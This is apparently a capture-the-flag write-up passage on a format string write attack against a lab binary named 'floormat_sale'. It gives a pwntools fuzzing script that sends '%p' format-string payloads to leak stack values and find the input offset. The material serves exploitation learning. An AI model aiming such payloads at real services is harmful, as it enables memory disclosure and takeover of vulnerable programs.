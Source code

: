 I've covered format string write attacks on my [youtube](https://www.youtube.com/watch?v=iwNYoDw1hW4) a few times so I'll not do repeat myself in detail here. We already know the location of the variable we want to overwrite (PIE is disabled, we can get it from assembly or reference directly in `pwntools`) and what we want to overwrite it with (anything but `0`). The only thing we need to know is the offset of where our input will land, and we can find that with a fuzzing script.

### fuzz.py

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *employee_access
continue
'''

# Set up pwntools for the correct architecture
exe = './floormat_sale'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

leak_count = 29

# Start program
io = start()

# Choose the Employee-only mat (option 6) to trigger the correct flow
io.sendlineafter(b'Enter your choice:', b'6')

# Wait for the prompt to enter the shipping address
io.recvuntil(b'Please enter your shipping address:')

# Generate a payload that will leak multiple stack values at once (up to 30)
payload = b" ".join([f"AAAA %{i}$p".encode()
                    for i in range(1, leak_count)])
io.sendline(payload)

# Receive the text, so that we don't mess up position of leaked values
io.recvlines(2)

# Receive and print the response to analyze the leaked values
# Decode with 'replace' to avoid crashing on non-ASCII bytes
response = io.recvall().decode(errors="replace")

# Split the response to process each value separately
leaked_values = response.split()

# Print each value with its index for easier analysis
for i in range(leak_count):
    print(f"Leaked value at %<{i}$p>: {leaked_values[i]}")
```